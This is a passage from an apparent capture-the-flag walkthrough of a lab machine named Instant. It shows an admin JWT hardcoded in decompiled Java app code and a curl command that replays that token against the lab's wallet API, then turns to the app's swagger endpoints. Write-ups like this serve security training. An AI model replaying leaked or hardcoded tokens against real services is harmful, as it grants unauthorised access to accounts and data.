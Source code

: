 ```java
  
                }
  
            }
  
        });
  
        return "Done";
  
    }
  
}
```


We can find a `JWT` token of the admin.
To understand the code, look at this snippet 

```java
Request.Builder().url("http://mywalletv1.instant.htb/api/v1/view/profile").addHeader("Authorization", "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA").build()).enqueue(new Callback()
```
The application makes a `URL` request to the `mywalletv1.instant.htb/api/v1/view/profile` endpoint and adding the header `Authorization` with the `JWT` token.   

To replicate that we will use the `CURL` command 

```bash
curl http://mywalletv1.instant.htb/api/v1/view/profile -H "Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
```

We get a valid response.

<br/> 
<img src="/img/instant_screenshots/Pasted image 20241013200924.png" alt="1" style="width:700px; height:auto;">
<br/>

Now using the `swagger-ui` api 

<blockquote>
  <p><strong>swagger-ui:</strong> Use Swagger UI to generate interactive API documentation that lets your users try out the API calls directly in the browser. Use the spec to connect API-related tools to your API. For example, import the spec to SoapUI to create automated tests for your API.</p>
</blockquote>

We will use the endpoints identified from `swagger`.   

We can identify multiple ones and if we used any we will get `401` error because of the permissions.  
